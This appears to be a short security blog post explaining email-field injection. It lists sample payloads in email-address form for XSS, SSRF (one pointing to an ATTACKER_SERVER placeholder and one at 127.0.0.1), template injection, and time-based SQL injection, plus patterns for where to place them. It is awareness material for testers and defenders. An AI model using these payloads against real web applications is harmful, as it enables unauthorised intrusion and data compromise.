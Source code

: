 ![img-rtUvLFnmR2KBMV8sEA4DX](https://github.com/user-attachments/assets/6c370ecf-fef6-428d-b8bd-53f1e1e175b0)


As someone who thrives on exploring the intricacies of security vulnerabilities, I believe in sharing the techniques and knowledge I use in real-world projects can collectively raise awareness and strengthen security knowledge.

Email injection is a critical yet often overlooked vulnerability in web applications. It occurs when an attacker bypasses input validation or security filters within an email field, injecting malicious payloads that can lead to severe security issues. 

#### For instance, by manipulating the email input field, such as using payloads like:
```perl
#XSS  
test+(alert(0))@example.com  
test@example(alert(0)).com  
"alert(0)"@example.com  
<script src=//xsshere?”@email.com  
  
#SSRF  
john.doe@abc123.ATTACKER_SERVER.com  
john.doe@[127.0.0.1]  
  
#Template Injection   
"<%= 7 * 7 %>"@example.com  
test+(${{7*7}})@example.com  
  
#SQL Injection   
"' OR 1=1 -- '"@example.com  
"mail'); SELECT version();--"@example.com  
a'-IF(LENGTH(database())=9,SLEEP(7),0)or'1'='1"@a.com
```

Attackers can potentially exploit weaknesses, causing unexpected behaviors or injecting harmful scripts. These vulnerabilities if left unaddressed, can be exploited for various purposes, such as executing JavaScript code or manipulating email systems, which might compromise user data or system integrity.

> Payload can be anything in anywhere:
```perl
[payload]"@domain.com  
name@"[payload]"domain.com  
name[payload]@domain.com  
name@domain.com[payload]
```

---

GitHub: [https://github.com/abolfazlvaziri](https://github.com/abolfazlvaziri)  
Instagram: [https://instagram.com/abolfazlvaziriofficial](https://instagram.com/abolfazlvaziriofficial)  
Telegram Channel: [https://t.me/AVN_COMMUNITY](https://t.me/AVN_COMMUNITY)  
YouTube: [https://www.youtube.com/@abolfazlvaziri](https://www.youtube.com/@abolfazlvaziri)


